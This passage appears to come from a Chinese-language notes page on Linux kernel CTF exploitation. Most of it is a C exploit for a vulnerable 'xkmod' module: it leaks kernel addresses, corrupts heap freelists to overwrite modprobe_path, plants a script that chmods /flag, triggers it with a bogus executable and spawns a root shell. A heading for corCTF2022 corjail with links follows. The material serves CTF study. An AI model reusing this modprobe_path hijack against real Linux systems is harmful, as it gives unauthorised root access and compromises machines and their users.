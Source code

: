```c
    size_t page_offset_base = data.buf[0] & 0xFFFFFFFFF0000000;
    printf("[+] page_offset_base: %p\n", page_offset_base);

    data.buf[0] = page_offset_base + 0x9d000 - 0x10;
    write_buf(xkmod_fd[1], &data);
    alloc_buf(xkmod_fd[1], &data);
    alloc_buf(xkmod_fd[1], &data);

    data.size = 0x50;
    read_buf(xkmod_fd[1], &data);
    qword_dump("buf", data.buf, 0x50);

    size_t kernel_offset = data.buf[2] - 0xffffffff81000030;
    printf("kernel offset: %p\n", kernel_offset);
    modprobe_path += kernel_offset;

    close(xkmod_fd[1]);
    data.buf[0] = modprobe_path - 0x10;
    write_buf(xkmod_fd[2], &data);
    alloc_buf(xkmod_fd[2], &data);
    alloc_buf(xkmod_fd[2], &data);
    strcpy((char *) &data.buf[2], "/home/shell.sh");
    write_buf(xkmod_fd[2], &data);

    if (open("/shell.sh", O_RDWR) < 0) {
        system("echo '#!/bin/sh' >> /home/shell.sh");
        system("echo 'chmod 777 /flag' >> /home/shell.sh");
        system("chmod +x /home/shell.sh");
    }
    system("echo -e '\\xff\\xff\\xff\\xff' > /home/fake");
    system("chmod +x /home/fake");
    system("/home/fake");
    if (open("/flag", O_RDWR) < 0) {
        puts("[-] Failed to hijack!");
        _exit(-1);
    }
    puts("[+] hijack success");
    system("/bin/sh");

    return 0;
}
```

Off By Null
===========

题目 corCTF2022 corjail（kmalloc-4k）  
<https://blog.csdn.net/panhewu9919/article/details/127804902>  
[https://xz.aliyun.com/t/12488?time\_\_1311=GqGxRQqiqmw4lrzG7Dy7QDkDcmoOI6fQ3x](https://xz.aliyun.com/t/12488?time__1311=GqGxRQqiqmw4lrzG7Dy7QDkDcmoOI6fQ3x)

调试
--
